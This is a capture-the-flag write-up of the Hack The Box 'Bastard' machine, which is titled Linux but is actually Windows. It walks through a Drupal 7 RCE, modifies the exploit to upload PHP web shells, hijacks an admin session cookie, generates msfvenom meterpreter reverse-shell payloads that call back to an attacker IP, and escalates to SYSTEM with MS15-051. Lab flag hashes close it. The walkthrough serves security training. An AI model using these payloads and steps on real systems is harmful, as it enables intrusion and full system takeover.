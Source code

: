 ```yaml
---
layout: post
title:  "HTB Bastard Linux"
description : Knowledge of PHP comes handy,other than that enumeration is key!
tags: drupal, php, session-cookie
---
```



# Recon
Nmap scan
```ruby
PORT STATE SERVICE VERSION
80/tcp open http Microsoft IIS httpd 7.5
|_http-generator: Drupal 7 (http://drupal.org)
| http-methods:
|_ Potentially risky methods: TRACE
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Welcome to 10.10.10.9 | 10.10.10.9
135/tcp open msrpc Microsoft Windows RPC
49154/tcp open msrpc Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```
Gobuster scan
![](https://lh3.googleusercontent.com/GaFlr7GWx5N7rb7y2-vSaXl_qOI3ZlnZrAanwKRIkyniOkkaPB2zGRrVrG2JCO5ef38R_C0CnDbchWt-apnuXRWa6JEX43MtH0IvRhLIICiY2Yz_LcjCeE1ZnnQCSRSjl4Hc3ZX76PtwazQFq3377eGVr-TD06s88fSMjZMZTrM01J_S_VOIZsrVIP1rR_qDF34KbkzZjV0mww7GSNzuOKLxicLKkmsZo4UiTr8XTi3jC7upES-QnHrkSjC9V-3tdnZJ5oUO2hPrS4yjWwMLXAzlNJBZVlJd05wk_-ssaU-2of4lywP8s6kTa2uhDun4MK2oR7eGRXxgdGU8XEvDR_YHZfJV6xqXkkkyjduHiCXiO-rbt0US7Bd76cjx9n1ah2eiBy5mIhcFxh-FVuBz3sWzDLLInO5fFPT-jtcdU5yKk4B2UKTeAMq2uc3HboccrLshIXwCBCA494rnHStO67WjSz4JR9UKgiFasZpvxi_QZ9ddHvdKnn4Ze1_GN43TOoMaLurneVuGh2o6tVv_nguB1bCUWuLjJQVB9mtJNKp0jgUwDt-cnZvuofL5PnVYnNcM_Zz8eoEmhJIHkIwUSUqX7GFNOjj76p9Dqi4QX6yH0i3u6OJ3Qu05PgP1i_ama4KnjsDVaGp5N-yWOa3XDX1pR9RzdeZ6T5cCdrOf5YoES9N4MtR_QPo=w368-h255-no)

Nmap indicates that a Drupal 7 is running on port:80. Further investigation reveals the changelog file.
![](https://lh3.googleusercontent.com/Yeesj-3PsnWGJ_xqpyM1XGCwZ_sxMTtcLND1FYB4hJr2EsoknRs7cEGX4mD8BU9y70P44iC1BDqPeSOZz59_YUN2neCFoSpEjlxA5LJdY224klUO0E_Yr48EhtNAvc_dofSeiAqxWzDp7FFlrAlJziRXmEwYqZzlqCULm_c6R7zgdQuj4qs2k97ifJr7aGZ0HSXqOh2FLsCAc9Qp4OtZZ9H_f_FL6AI9_307z9Cjz9bveC-nC2Ic2kMQpL_SrMcXxz5JGIke8eHnAdATOazx-P54PSPMnkY8Lk5FXJESnCvtaoPLh_H8AVDB-iTjKLBkl3xf92AsYgeygCTTcVs01-Kv-9AFHoWIh9gdAQ3uaPJY2xCyH4ol7qF64bzoMT-jA4ih5UB3R11-Wm7yVfbgXRWXqInf39C75csOZPFi5-_Tm4Ogv_sA-rLvmxnBVpToU3-6LyCy1W9Zpt1k7sBC1cg_gpcsi5ZOa5seIPW5gFmIHRlI9ZAUZW1fNpD7ZK4HPXy2_8PsHOVVUjeUFmfJcOhD0eTufwooyblwEGaWAFe0IOo9xrmm_Cd591cDIrlBAbpZq9fvmhpn2xwtiPjpO7X1H35SI7hklPPbh6bOuS8YGI6zrR2EXfvaKbDegmSf_KqQ83RjWmuPG_KjLSdUxGIi3d2w53iOfCSa-Etf7le7NGHzc8zEk7Q=w532-h266-no)

![](https://lh3.googleusercontent.com/VB7NUY3pt-vYtFz15oSnfHz9B5ShufrG73oMbDS-RdBhPVVr1Ob3gqv28Fy-69TgcNx0_6v67Zv3N9MMWtkLgT2i96YJsSdYrdhNDTE5NsV5ttkL-vUP6DGSx9SZuynkc4MHlY3DP-tG8efdqQv_D7YVCpIR157_XlH1vSkUIHGa3dVGAhYaUCh0FWWMNf_ZOaFyy-xiqL0OE_Ryz4O_-TpdAW1THvcNDLeoWVsDiDRq2j0cRzEyFJnB0tv_-Yfwhf8EkQIhxdKBBse7pITTJjZdDi1dJZ18Y0PB_VFyhWHtY4gpZKgGmzxo5rylV3yuT_mfOyQOltidwtb6Dts9pq_Yc0kZD1Xod2GKG6jBWh6x4T27qSr16MZDrdzqJ2xrtykv56tjhS1qz5Ae18XLf4yObNz-TQNH3QQ8p_WifeAhYQXEHdTk_Xrlgib7SOl04UTOpwu_lpUXII_SOU_keQKGLew32jY5aq8Gu3pRS8Ctk68c_FwYhXAzQSVt7PRumDuo1X3o5dQ1OMV5rKwgf6Fxplml6Ba0zpu624RJpi2Y3qXsDLKrllTnRpfOv2Ok7KorvuwnLuzFdDc-FXn-8d92MZ10clLoCSKJ1b5tqIyVFg3J6wY8eou5x-Kb1CeR9HSUNDS6BxrxWztuJ-GN_GOKzOqdb9axwIZND-5d-Zyr9OF4G5EEK2M=w559-h331-no)

# Exploitation
According to the changelog file the Drupal version running is 7.58. After a quick search we find
the closes exploit to the version
```shell
Drupal 7.x Module Services - Remote Code Execution | exploits/php/webapps/41564.php
```
![](https://lh3.googleusercontent.com/9lstBWfm8oaDaKy99l1tD8hJOq_d64IGWmu0a4RgeDtp7DJC-6L0xrzmUCx4URVSFJVnkEgZt6xb8QaTfECurCQUgF8vl-xpwfbgPDm_1n_qjW32P7S7iPkPnEWSMy_gSi6n06Di84Rm75syJ3P0lKovRketWxPvVCwudFYoqSZ5TcCn9u8VyMTU_likTOOElJCuJyjRw3CWlp02WNcOXAeL1qwGx_HT_36jfM7ji6wsfRZIHbLBIbLjZEdG5rWbXy9HCyi__RnOBIposVdcDHcQPV6by9h1vM1E4kA4YpYLrc5iiKXLHSaFe4rzlzRTzUlzQbb3GnHewuj2GDMeGaflG8TC4WXekLQofJ6b_Hklxk5stM-MUtympGNC-CvmFVmvcOEiGxBOACTlAB42RBmNM06HU3iEuWFb5Q_NAJ5_jAkQhBnAT-pNcfWR4-YOzqbxC2lbYVie3-_qvR-nehojWX2hpvjlTI8VvRb5VTXTaXjUr851icRrIJkLn5dRCJICEcI1J8RaGWiiDufxaiaC1EhgdlnXu8arpv9o8cekjspbkRyHdD2dLcN2WTFg5iEEjqT3yeBDSh577Hng1NQvXruBpUEgRY7uiSDMrZ2HsN_6irXpOyGCvKxYkLq6Jlqhi3GD6fFB-L5s4XfWFiUxqVZVBykE9UyYrxGsoDEwBM95AhFdGdU=w676-h275-no)

We modified the following options:
```shell
$url = 'http://vmweb.lan/drupal-7.54';
$endpoint_path = '/rest_endpoint';
$endpoint = 'rest_endpoint';
$file = [
 'filename' => 'dixuSOspsOUU.php',
 'data' => '<?php eval(file_get_contents(\'php://input\')); ?>'
```
```shell
$url = 'http://10.10.10.9';
$endpoint_path = '/rest';
$endpoint = 'rest_endpoint';
$file = [
 'filename' => 'writeup.php',
 'data' => '<?php echo system($_GET["cmd"]); ?>'
```
We run the ./drupal.php file and it will create to two files **session.json** and **user.json**
![](https://lh3.googleusercontent.com/SMmshWsrne-XpcHuJoxK1KD2lR89U3wxk_O8VI1BVhfnHl5B-kkwkJ9W51xAYVSwi-wxJU65zXKOzF8w98NVmaRh-XxKUvkr0etYIiYnuG1W9bm3VBqOJd-V9YKsr0Bcevrqy7PRTNoYMAma6HWEOI8P_5q1fBARKUm4Ex59Yh5v2R2G4R3pLzNna55Gz-3CH24oI1xS5ykm4RMN9biEE96IPvFmdIYm2wzm-BON4_cOJTZvqrnPSU6v-63z4HN6R5ogLLob9kL2AYUb8gmrpKXU_W1-VJqkRGhxxY5dnO6JMGjyDp-fX0LjrFe-daIIl8O1yMkD-bqujqYSQYMb1xvB8ODxEgWGm-VTJ6RuxLVUM3CyGJpULFFUWQGeAaqmWXiWawlQNcS0Upg9sZfJhQclbyAsDnjVF69kbcRlFqIKdpJJjrCAPAHQ7urTQrDfSas0vk-iCf9i-_WtL44g2Bylz1ZZXlG860bTGeTFCQt_IVOOeROvNBCzx9NpKgqvKoJxZTH54iNTnWdQ0FiZfes5WEvc7iweOW1iC4W0Y_FNj3BaJQ8BBnlpqt7RBf0YlL8ehQwU6GJkHfPlDGOlBDtL8qKX1ndZ-JQnZlzW14QCdsLD8CmTGVrRpJnSZziHBBp0UBjktwZbtWre_4ByvtJSdq6Vh4Nm4DlcN_8uiHa0LSXKEFKSOpg=w390-h199-no)

![](https://lh3.googleusercontent.com/5LEVJvjFIrM7Tiw-TidUiLTpx5E00I4SLhHmbXCtiMhYgZNPmnsjwCpU6rAYu7-s64eiA9J1LActK24HINMLsgSV_3lJLo6rSSK--VJsEfTK4cxVOfPX3IKbIEZbNBZPKYRgBgoSUiaie3rft6FZGAR-2XzEQcATrYp3-ExRW5Q3Kejw9_RLHCNc6zW7xGXpx06Fvr_u04hiOmFX_M0X4Md7k6l_OI3HV0h0vHS1vVQpiE5Pea38ftmwWkhJPtGCnB9IIJn7TzChcc4wFRz-m4RjS8oU2lQkRIFn-ihtu6nD2tLzhAUMXQJZMq8WY5z3n0XuNiiV3wwSk-WUdDfmR5CCLvGUcmi-lQMG2PkWydQnvVQ9jdMG5SlTbfoVrc8gxgBrJuwu8YSn4zqApPw3sJYdiaFWFNvyoCgOYqYvDdCw4JdQc2tl5KcGmhd7KyfZ1hzIYYsmpM1sc7jcr783PnswhV30MhFthhd6adUYjWoh0sTmLxOUckcXYEx1ss3c2n-UqIKo7Lx-wfeOw3EbK5fZuSsPo-dm-E-yP1kr9ayb90FpK-4Q2kaar9MLJnllC3UOmvm4Unwn0crlb0BKTlFeocXxFRdqqDQj1zvweT_k7hTRt1RzeIOFninvBgjTbYRXENeCD5pVQr_Z5md9FnkNkZSnXKHq83RN3JbqKB2Kbuaph3Nj9sk=w584-h128-no)

We create a cookie with cookie manager and we use the session ID and session name from the
session.json file and we login as admin.
![](https://lh3.googleusercontent.com/FWdpEek-l4QGWD21HrN386secGE9IxiA_OVvGwEOH7A7JxrdeJRyKv_kxLrxlCCSYmTtR-udboRR6QK9LcJNys4vQclROwHpkAFIprI_g3z1Pn275JSQf6PkYjNwpciUfktV5Iq5msSUnQdqJIBWNJeA1GOs8L9yE-DgqlxgxoRMO6x5EJK9ZVbp1TcwndqBnqvdy3tIweC8wu2THJz7z_vvQLv7uy-dsjl3z_L0HIYXQB4vS8eNEisp22CnIjHuAMlBEIcgCba2EkRJwEOEfzCw0V4P-T0OqSyo6J3N7h5OVdCtJaJHvMeM_Xzd1A53CkeNShdDDc05umpafeRMJKqzdcDuUhc8790jOy1IDfZ1ILSVFA531KC3KjKP9lo8lMUXCsho-0Pf2B_snSkYXzA0BHkY4qKZJN4-Pdj6yWDXoeyWUKX6w3hCDJgRyUx6A7JwWq4TNVUlRobXrO-fCQrvKZPnBi6KHSnQZ27-9qQ1TAewuUYdcz9EktLnAKPNI6zu4HThNwp4VK_gcbzFVmXwZQU1k7KJ8foN0ZtWKhrf2n389avKxu0d643lyffXz1SvMGHG4rQQ2H8WcJCVzw01nfBVzPPaDE3qzD-5e9kPpNtOIZmcN17Avhj0r49ycan7cZ_RFx__mHX96v4TeaABukXl5nGs8gZeaEXxwc3cjcvO1V5JaeA=w986-h386-no)


On the modules section we enable the **PHP Filter*
![](https://lh3.googleusercontent.com/nqxJ_UNATvG5iBxalGd0kLEojyGOwa973A2M-zjq9lLStWqZzAMxlMbIO11VoDh8NDS8K88fzg-3LDnwFoVo-9P5fMTT80Z-7E6UfgMv0TfW4mm4CCJt_YOMXKpeQ_lXuh45zYpgZiiEcFAwPIphzDOJAC_si-jnqQVdMFBLOv8HksG-nYkEmqnO6F3oTch7bCNtJTBXp6GhI8SA5jeBqmi_kLJIoG4xDT1dlSQeTUTaLL5rLlId66_FILtoo9UZmWuR-N62UkhiceB_cE_u6gLPr5fO84E1yh7v-jkSmg2nSlk9Zhy7bJ2qgY2i7EA0D0tEcXPFgF7LXCoqZUa-CDOY4KMave_YxmbpBe13MMwnMqTaKhwVOE-EmoNiXmRC1Y-sF-CHozmwnMJyHdTQB-H6vi8Akrhe6wVh55ttNbElM8Oa3P4KOuDotdxSOAT9GsofZsIgsFXnM7TEUBRE9xW-G_pHgZD22lEhjJn8XZsxqjx8IR4z_aGv06-w3r96TK3xb0cclh41hh4IIWp7sIvvAEt2-F1dZefou00iPTPeaNccDlscnljL1xxCBg1evMnjz9eUybJ8VYArv-kPaOMQM0qzWAav3W6A693qGe2om9omIIIyJLx7BJ7_pGGMLuQ6NWV-iL7B0u2eu5y4COVATCqElmWvx3gn6YmMJ0JrgvE7mW9hZjE=w843-h93-no)


We create a php msfvenom shell and we execute it to get a reverse shell
```shell
msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.14.34 LPORT=9999 -e base64 -f raw > evil.php
```
![](https://lh3.googleusercontent.com/QGc0fa1RgZl9a6ns8wJpGesn-jZrLbiQmAF5aVath8_4EWgBLoexsuW3AOsYyA24htM-9DZFNHmmbffO7XZL4JeD1LrY7Z1fVnJ6euJFbxSeYv5W0ZkPAdBKEPR9Y2WewjzgjWaQmjAjm-J8UA9-Lx5VIBQc3p8ycsmHIdBZl_dUOgBscp6UOaa8otyC7AoWaXajuYjsbrH8KRTGrSKogCVODNmHG03xMDq5MFihoOxipaeAAdd-T3sV8qce-Gl91gaJw5JiWgEFi_R_TwmkgBR8vzYxlpEV87SQsgTciG-5bAuzxmHLmYsl9LIkmpgLNqPYfyITNkQTTXM7Xh6mFTGUQz6L07L6htETxdwuHN8MsaguMbEnu-0nN4FK25BVbfven75Awd2wayESjrj-edDhbAv3Px8qx6DTf3Ydx5_nGsBG_MIMAV1QC9AyFkcVNodlgJhB-oBfNbNKKv_ZmzJzN7re0-a_Rxp3Fq5lBfy92xqA3OG8xWioV63UkOH5fy3MAb--8VEqewtKM6lLDb6f8GCn76pSGmeTbKQOQM7HotuEYrKc8VWT68Rkb5WCTg6QuIkiZz123HbTKnTreMZw4ZOG9yZ9u7_eGgLe7qLPHTLloVU1P6yrNQqXkcIFedEEHPlc4EnjwtVsS7_WM-eClbmhK_t8q2yxa2ydvQETpP80dxkByhg=w1126-h179-no)

![](https://lh3.googleusercontent.com/VFHh7am3Klejtbn_HPd3Dv74BW-29ig73ZdRcCpzmZ5k7dikSE1e_3C-2mjrw6oudAxyxLkSPygKbVu8UZnIBAViqtvhpNC2IcQpr0i7zbJeCGKxZRwQi_Q2Jxjwgb4BMeOtZYsp3ZLQ0yPBlOmHWgW-QdrTHM2slDp01O06kZPdXWTIJP5xDamD0i6pEL5_cewVqB9TIvAsvyPauxQtTTaLRFDvg5JpBCz3sJx-aFh5wmq6ihGNFqH4WKf4OWZMkwh-jr2MtfbkqepsIayHTfB_rnOENyJWn0J3B4BMvz2VRyj0PKv8R3VZrIUcBWvLI6zxlzL8AakevTC9887WeKWeU8mrpqHvlPdi3hi89EF-H1HBDRU7H7mMEg8emDVQqwKc6E4e1LQcc9fJJwQ_TIIJaGmvPXHUbPXiUqMMT0eYW_Rgnlji1u_WrZoUB2Wv5DX7SJlgTxS3yA6yLFOvGjwbRyTDj3i-pZ8a-WIDl-nT-gzZDnzZL47JuvTSxATsgzgce1HJLIBaVNiLsdfBvSYtappbyHVL5Eq2h2zlOez7sPcbKPIr5UqngokTd4TAeYkhfyGjPA89RX04DNxZtFf-gQ7QcgRmBlXqdVoYfD7v10gAomRGP_y4_FTxiGcRw_L0Izzc7g6-Ofo_9v-illxW5JFMNhiEgfXycxUCJAkXaf7m33lgImU=w492-h156-no) 

![](https://lh3.googleusercontent.com/S5sXZe0Qh6mCkJsuKAr8IKe0ZMv9Ib8mOq8Cnkl0q2wDr82kybgdB1XgYv8F8C7Gu99PAN7H4JeQ6Wfax1xz1SJCwXxC7XfLfVhNkvXjthI4Z4mh4JftqdnpBp6sDWqb_yUfkhMnwkxjqf-B35SUJERjWbJYyosWpWtNJEnZ9Srpb9cLs6L9DLKc2YPR5jqpqe2xKDuXC5Y3bG8ZpGb_1qJZYBS31nUp8mhmhw12uh2w_N2z7aiRFbCP8-Ur3FeQVNwH3HO-6aacVwep0okgEQi9qhKrcNyEmfGSO-gZvQQcENqvoqA-Z08FtV23RA7nWEFdxFpJ6lLi-8e5yi5KOgvh-7oG-QINPJsQ8Mwvsdr3T_sQ7D6OVQe25Dc0c47oSIE8lHMuUKnhsqq0AAmW0GdiUvJFnn6sv5WczHU2aq9dpjWxX5gjYnKB6C1AL8nkU6sIArF6T-9kztigFgU-LottydzOnoA3qMojJbenpnjLmw9cphIXqK-f-eZ28Uj92ayyVrR3DjWrlZMjteyo5Ex-S-tHZtSpKuv2h-fuUgEztz5Y2kTKLWrsdTgdqRevODdNQaEKdEbMoqvXYvBrwPFnz6Jx2nj8rFo_MZgW1C2OPbjNyszwGqtYwJYE1X8qmb-8AccySIo3K64MWeK-J9oEA6Wt4QkiXGPnSk4K2IJ1NFcmFjiZcFY=w446-h145-no)

However, shell is very limited and it crash when we try to spawn a windows shell. so we create another
msfvenom shell
but this time a windows/x64 as the target machine is a 64bit. and we upload it using the current php
shell
```shell
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.34 LPORT=5555 -f exe > evil64.exe
```
![](https://lh3.googleusercontent.com/MZ9qE-DU4oClL3QslcYQnUXOyiv3njiZ_XbmDwIGDfEwzvEtpv4jbIWKEdhBxeXGDYE6funaNm9SyWhrQNdX6J0ctv_a7-HhE6XPTqx15bjO4jDvc8aI57zpZYuKoU4gmBQJ0KiXEepIAMfvedm1D_z3iV65aJokfs8rXMrlcEfAHKBJ0RizB7ACqfMgNkNnTkdTFQ_bmgyuxw5jj4Xdm4BR24SqKocgqxcYtI5JLbtsGYDk8_rtHKeEJ0Eu32qNDSP3NtKNb-gQxOB3mYQNq6QretWLELD-n9RNEnwPkZNMUJpZZqayPB6b6gbKXjHzTalVM2_UR0bAZGGstllueS8k10_8wfsBl3Ap6tSIiEul8lQEqDU4N-bUbYspOSRbeuNX7VgCkaMSEWdX2R6ItuXo8ZGRycQYIRvfKm9TcqQf_xe4N_QbhYklEpRHuuR-2o6TGqkWPZP0lu8lD90g8S4POMhOQTrUMC34nPLWopw4OR6MySkfVxWI7Pt8tcJ4KwUvZtwmO4f28Q_TpFWPpX4OQlNDFHK7aIeJuwWK8X8Zm59jQUva5NtZ98RpydrnJWdPdRbf6FLXyHGVQL-AuDw8Y8Se7TCiCbryqzpeKOpJlkAGX5s6XWeClbUIWt_IUljPJoi2AkPuywjC40Dp06glIGG4JGtbvK-U8viuzZIZMr_qacGwkHM=w679-h395-no)

![](https://lh3.googleusercontent.com/s343Uk5g9pk_Pht53oplofawkwPijfvmygzwqbHYisFqVNCKnI6BmCzAS8Z7dxBQWg-7f0DBH3kzPBiKSeGQBJUt-v9m7fxbLyvt5Hy3_BbxyxVUq_BpPeIvzB7ayaPb1u2_6nnwwI2T-T9bNvJwKys-l_qzmIkZNgYe9Q3jLRgcpD2FzLNsOlTWH-Edc1YWj62IFwlcHckOLN6WfKCXpl6Ikogzc54mRRoes3Droy5C9A86cZ6PG22WOnMknamD9rfOhdk9RZP77QRt0z9nhMZ5_uXaJxKN0mAZMnkERsSPECx0tUpBG1JA2ripOAt-2aasrTzz_4Az-GTh6wqurRh6ZOJ25RBAM8YwA01Eyw0js8TcWbBmn5c7cj_JaBH9NJ3wng6Q88wgdMqzDJ1UEIDEHbgDNftBIWaDbwxZ6_iMObt24fuqP_6fQ2_UkWoV3ntOBKjKqlT5QffoQTYKbIZhAlUPtHi1A6f4Wn4bZaRvVFD2pfXx9mDJzuqfkAeZTCmXhjGfVM1aKZWpgvYwbpTNFHT5XMjMbGM-KwBkG14HDsheLxQbTf7CBoynE4H9yfsk6q4fDHUd1u44ZZAAtqzvjvE6BHf978e4VT95JHr3gAQ-dVDgc6Pc6BohFfYTE1s_NPVeYxHG_8NfakqLqSPaWGtO9BrNRoFvWLXtIDpoSliwirgkNzU=w713-h160-no)


# Privilege Escalation
After running windows suggester and trying different exploits I finally find one that worked vuln: MS15-051 CVE-2015-1701
This exploit let us pass commands as system authority, so by passing the command "cmd" we get system
priv. Ex
```ruby
2/2
C:\inetpub\drupal-7.54>exploit-bastard.exe whoami
exploit-bastard.exe whoami
[#] ms15-051 fixed by zcgonvh
[!] process with pid: 1500 created.
==============================
nt authority\system
C:\inetpub\drupal-7.54>exploit-bastard.exe cmd
exploit-bastard.exe cmd
[#] ms15-051 fixed by zcgonvh
[!] process with pid: 2588 created.
==============================
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation. All rights reserved.
C:\inetpub\drupal-7.54>whoami
whoami
nt authority\system
```
After some google I came across with a compiled version of this exploit, so I upload it with meterpreter and execute the exploit.
![](https://lh3.googleusercontent.com/kwMV2s5feygPwMnyf1rxzqQQjoGG508wb4Xo13huKmGP1TkJtEGTovARb-UHok-weztD_uhPxZ1T0HNBwvFSG0T4GcZcTHeCQANHn6OUolmHUcBWi_SVkpbwHKJcS89V3aZLRG9-zyE5e1kDkiiXehiUAxxQ-NZay_RZxn4mgsO2fBojLolxZhlv2i1G_ulZXU_gpcwhbDPH3QrAdBVAYquxz9A_1vQnSyPe6-239cspSo0Qi4ErjKCmYT6ea1ingVKOCMpzebg1XIeQ44ZhWcUBtlNN-BzXRKATKBeKKQqnLKWVO7-gqmiaX0r3ConQhwYIewvwINYe6UZqAI5v8s35eluuxra5-mdIk5noj50HH_bcFQllYEiqpUeZtPtqtn-OiyszxzIct2CtBGnd5JWu6bgj81KU3drHn6r7qQtCJDJoVyNjmyYlazR23h6O7_FMztv8z77HnDUFRaNjx3_kfHiPXnj35fXbaWMUo_A3w98qruDnDYCY7HfhGiTBXVfk6HMKFMuXIr88O8VETe0Wne9rffkFgK6X6UaoHMwaSvZXzQ05-hLrmQddonHzG-xdT6IftPmocKOkZpeQaju26GeqyQjit7rWgD4JbVEwtAdpZ6Xn__AtNrXiRycbasN1CUYNSsxqOKvyPS6jlHh0BC3wXJcTZHT4hW30kcWoxjTu889FNnk=w652-h89-no)

Finally we got Root
![](https://lh3.googleusercontent.com/Yx-CDF87NocbY3V9tB3S1BU6ObNyVA5fF4Qe99E0SmWHxsge9O80XCjx656LGa6_CjVfF_HsmEmuy9Kvc75MGAhnPDrtaYR0zJqWVbZfD5mDoxAJMrrfwyLf21lqdLQ2By1M_F0jiGbrt5ScS--L8bu4VkH2Mk5xpG6DqI_OqS8DmrHVSbF3Fq8EhTHm1b1X_JYmZ7WKgS8UUTQiwtNVKIU9qsz2dOBvPjeccN3bfgwyNwrZEXbyUVKt6tW6Zm_dN8AHkQDrRZdB14qRUVWxIyvfliByVrqx57THulBp_J-PIuiMvFKa3E7FB3vIfdRlTI9GXKcpZJ5P1l2X4FovQvrS7ZLnXM0rqHQXh6FYwdRpgFivsJw0PlAgVj7eJwBclZLVdz37d_iiOoo0iCAVdeeLEpxd2g8PGxynUJSO2u436ViByCyQx9wL3jOPwHa1z5vOl7avUlwz2T0p98XevPmF2v24Ft3ejWb1szVxSHHn4HKxYtSoYAwRjI3nL7Dk6eWfD6mDCiFqJJQsiN6cRM0jjP9E_R56WItJYz_ZXujE5BWek-GS5CIKGK7tCysBF8SFNI__1otQZ_RjpSYAY6aNx-gC6yq75JQVpwKV_503zPo7HojhyW_y1jho7JCEeeHh_YfF7qWkz3nmoTSoAAodFetIUe6Nwcb4ElX7xpkJ9s2qkkKdW7s=w630-h355-no)

# FLAGS
```ruby
ROOT  "4bf12b963da1b30cc93496f617f7ba7c" 
USER  "ba22fde1932d06eb76a163d312f921a2" 
```
